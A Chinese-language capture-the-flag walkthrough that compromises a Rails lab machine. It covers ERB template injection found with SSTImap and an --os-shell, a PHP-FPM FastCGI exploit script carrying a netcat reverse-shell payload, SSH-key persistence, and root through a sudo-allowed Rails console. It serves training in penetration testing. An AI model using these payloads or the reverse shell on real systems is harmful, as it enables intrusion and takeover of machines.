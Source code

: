 ![Pasted image 20240913144412](https://github.com/user-attachments/assets/92d66147-3fad-43d1-a4f8-41218a78bd63)


# 端口扫描

`PORT     STATE SERVICE  VERSION`  
`22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`  
`| ssh-hostkey:`    
`|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)`  
`|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)`  
`3000/tcp open  ssl/ppp?`  
`| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR`  
`| Not valid before: 2024-05-20T15:36:20`  
`|Not valid after:  2038-01-27T15:36:20`  
`|_ssl-date: TLS randomness does not represent time`  
`| fingerprint-strings:`    
`|   GenericLines:`    
`|     HTTP/1.0 400 Bad Request`  
`|     Content-Length: 930`  
`|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in execute'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in try_to_finish'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in reactor_wakeup'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in block in run'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in wakeup!'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in block in select_loop'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select_loop'`  
`|     /usr/loc`

通过搜索发现3000端口为Rails的Puma服务器默认端口

# 功能测试

访问 https://xx.xx.xx.xx:3000 会进入如下网页，网页提供了hacker的硬件推荐，例如Filpper Zero啥的
![Pasted image 20240913144903](https://github.com/user-attachments/assets/1a1caa98-6625-4b90-90a2-1a7d2f6e4bf0)

我们随意点击一个超链接，如图所示
![Pasted image 20240913145108](https://github.com/user-attachments/assets/8a59f08c-9416-49ee-92c6-36c8d9313755)

接下来我们搜索一下，看看有没有什么设备是没有的
![Pasted image 20240913145228](https://github.com/user-attachments/assets/2893f69b-6a9d-481f-b57c-0b60dcefce2c)

注意后面的message,为Product+does+not+exist，很明显了，这里有ssti的问题，可以搞ssti注入，但是因为这个服务器是由Ruby搭建的（具体来说是Ruby on Rails），你直接搜ssti还不行，这里应该说是ERB Template injection（ERB示例注入）。
参考链接：[ERB-SSTI](https://www.trustedsec.com/blog/rubyerb-template-injection)
我们以<%=7 * 7%>为载荷测试一下，用burpsuite更改一下message后面的内容
![Pasted image 20240913145806](https://github.com/user-attachments/assets/5f340c27-c28f-467d-b970-d818dc790f4b)

发现确实可以运行，那么这里推荐一个工具，[SSTIMap](https://github.com/vladko312/SSTImap)，--help展示如下

`nwkyo@Fruit ~/C/h/hackingtoys> python ../../../Tools/SSTImap/sstimap.py -h`     
`usage: sstimap.py [-h] [-V] [--config CONFIG] [--no-color] [-u URL] [-i] [--load-urls LOAD_URLS] [--load-forms LOAD_FORMS] [-M MARKER] [-d DATA]`  
                 `[--data-type DATA_TYPE] [--data-params KEY=VALUE] [-H HEADER] [-C COOKIE] [-m METHOD] [-a USER_AGENT] [-A] [--delay DELAY]`  
                 `[-p PROXY] [--verify-ssl] [--log-response] [-c CRAWL_DEPTH] [-f] [--empty-forms] [--crawl-exclude CRAWL_EXCLUDE]`  
                 `[--crawl-domains CRAWL_DOMAINS] [--save-urls SAVE_URLS] [--save-forms SAVE_FORMS] [-l LEVEL] [-L LEVEL CLEVEL] [-e ENGINE]`  
                 `[-r TECHNIQUE] [--blind-delay TIME_BASED_BLIND_DELAY] [--verify-blind-delay TIME_BASED_VERIFY_BLIND_DELAY] [--legacy]`  
                 `[--skip-generic] [--run] [-t] [-T TPL_CODE] [-x] [-X EVAL_CODE] [-s] [-S OS_CMD] [-B PORT] [-R HOST PORT]`  
                 `[--remote-shell REMOTE_SHELL] [-F] [-U LOCAL REMOTE] [-D REMOTE LOCAL]`
                 
和sqlmap用法差不多，同样的-u提供url，所以我们要测试messages是否如我们所料的那样

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*'`

`[+] Erb plugin has confirmed injection with tag '*'`
`[+] SSTImap identified the following injection point:`

  `Query parameter: message`
  `Engine: Erb`
  `Injection: *`
  `Context: text`
  `OS: x86_64-linux`
  `Technique: render`
  `Capabilities:`

    `Shell command execution: ok`
    `Bind and reverse shell: ok`
    `File write: ok`
    `File read: ok`
    `Code evaluation: ok, ruby code`
`……`

确实如我们所想的那样哈，sstimap和sqlmap一样有`--os-shell`功能，直接在后面添加即可

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*' --os-shell`
![Pasted image 20240913150617](https://github.com/user-attachments/assets/343935e0-b9d7-41a8-af46-2788b5c4cfb5)


Now we‘re in

# 用户过程

## lidia

我们通过上述方法进入到的用户是lidia用户，具体怎么确认用户这里不做叙述
可以下载linpeas.sh去跑一下是否有感兴趣的东西，这里我翻了很久之后看了一下端口以及进程

![Pasted image 20240913151003](https://github.com/user-attachments/assets/89dd8d8b-622a-458f-927b-aef3197b48d0)

发现本地起了9000端口，且用户dodi在运行php-fpm，后面我百度了一下发现了某个大佬的随笔说php-fpm可以直接rce,参考链接在这里：[https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/)

脚本内容如下：

`#!/bin/bash`

`PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'); echo '-->';"`
`FILENAMES="/dev/shm/index.php" # Exisiting file path`

`HOST=$1`
`B64=$(echo "$PAYLOAD"|base64)`

`for FN in $FILENAMES; do`
    `OUTPUT=$(mktemp)`
    `env -i \`
      `PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \`
      `SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \`
      `cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT`

    `cat $OUTPUT`
`done`

不过在写入这个脚本前记得做持久化登录，Linux这里是做`.ssh/authorized_keys`,Windows的话我记得是写入WinLogon/Userlist注册表条目去

做完后写入保存，并运行，然后就进入dodi的世界里
![Pasted image 20240913151823](https://github.com/user-attachments/assets/0e2e3b79-c737-47b7-9480-13a4ea573f81)
![Pasted image 20240913151856](https://github.com/user-attachments/assets/169ba059-2dc8-4c16-b416-71cb30b5b9c9)

## dodi

进入之后常规检查sudo -l,发现如下内容
![Pasted image 20240913151954](https://github.com/user-attachments/assets/9fae6bb3-ec99-4d7c-87db-270d7dcc2009)


让我们看看这个脚本是怎么个事
![Pasted image 20240913152040](https://github.com/user-attachments/assets/3b250862-9ffe-43ab-b378-4c8156cad03f)

这里是说要先创建一个新的Rails应用才能进行下一步的操作，例如进console和测试应用，那么我们可以先创建一个Rails应用然后再进入console

`sudo /usr/local/bin/rvm_rails.sh new rrc`

因为我这里已经创建好了，所以不放过程，我们进入已经创建好的应用文件夹内，例如这里是rrc,进入后执行

`sudo /usr/local/bin/rvm_rails.sh console`

现在已经进入console里了，在这里已经获取root权限了，但是我们面对的是这么一个界面
![Pasted image 20240913152558](https://github.com/user-attachments/assets/d6443b11-b39d-47ba-9ce6-f0abcac3bc97)

有两种方式可以执行root命令：
1.
![Pasted image 20240913153015](https://github.com/user-attachments/assets/33d7b877-be0b-49b0-b2fa-2e645515093b)

2.创建一个xxxxx.rb，然后文件里就写如图所示的代码，然后通过irb_load去加载这个rb文件
![Pasted image 20240913153543](https://github.com/user-attachments/assets/dcb5088d-9348-48dc-9a22-066e64376f01)





